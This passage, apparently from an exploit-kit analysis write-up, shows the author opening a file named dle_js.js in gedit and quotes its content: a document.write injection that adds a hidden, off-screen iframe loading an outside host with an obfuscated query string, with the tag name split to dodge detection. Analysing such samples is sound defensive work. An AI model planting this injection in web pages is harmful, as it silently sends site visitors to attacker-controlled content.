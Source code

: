     ![ek](media/EK/image76.png)

    I then opened the **dle_js.js** file in gedit and examined it.

    ![ek](media/EK/image77.png)

    `document.write(\'\<div class=\"\" style=\"position:absolute;
    width:383px; height:368px; left:17px; top:-858px;\"\> \<div
    style=\"\" class=\"\"\>\<a\>head\</a\>\<a class=\"head-menu-2\"\>
    \</a\>\<iframe
    src=\"https://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya\"
    width=290 height=257 \>\</ifr\' +\'ame\> \<a
    style=\"\"\>\</a\>\</div\>\<a class=\"\"
    style=\"\"\>temp\</a\>\</div\>\');\`
